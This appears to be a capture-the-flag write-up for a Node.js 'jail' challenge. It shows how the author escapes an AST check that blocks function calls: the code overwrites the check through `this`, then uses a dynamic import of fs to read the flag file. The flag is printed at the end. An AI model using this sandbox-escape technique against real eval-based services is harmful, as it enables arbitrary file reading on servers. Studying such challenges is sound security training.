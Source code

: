 
> I hate functions. I hate them so much, that I made it so that you can never call them!
> 
> Note: Solving this challenge will unlock another challenge, "JS Blacklist".
> 
> Author: SteakEnthusiast
> 
> `nc 34.172.149.49 5000`
> 


We are given a Node.js console when connecting to the IP address. From the Dockerfile we are given, we can see that the flag file is in the same working directory as the chal.js file that is running. 

Inspecting chal.js, we see that the following function checks if there any CallExpressions, i.e. functions being called:

```\\ Check if any functions are called
noCallExpressions(ast) {
    let hasCallExpression = false;
    traverse(ast, {
      CallExpression(path) {
        hasCallExpression = true;
        path.stop();
      },
    });
    return !hasCallExpression;
  }
```
 If there are CallExpressions, the program does not eval the inputted line, otherwise it does and prints the return value.

Writing `this` returns the entire Jail object. Thus, we can change the noCallExpressions function in the Jail object to always return true. Note that this must not be calling anything.

`this.noCallExpressions = (ast) => {return true;}`

Then, we can call whatever we want. Since we want to read the contents of the flag file, we can use the `fs` module. To import it within an eval call, we have to use an async function and dynamic import:

`(async () => { const fs = await import('fs'); const fileContents = fs.readFileSync('flag', 'utf8'); console.log(fileContents); })();`

This logs the contents of the flag file: uoftctf{b4by_j4v4scr1p7_gr3w_up_4nd_b3c4m3_4_h4ck3r}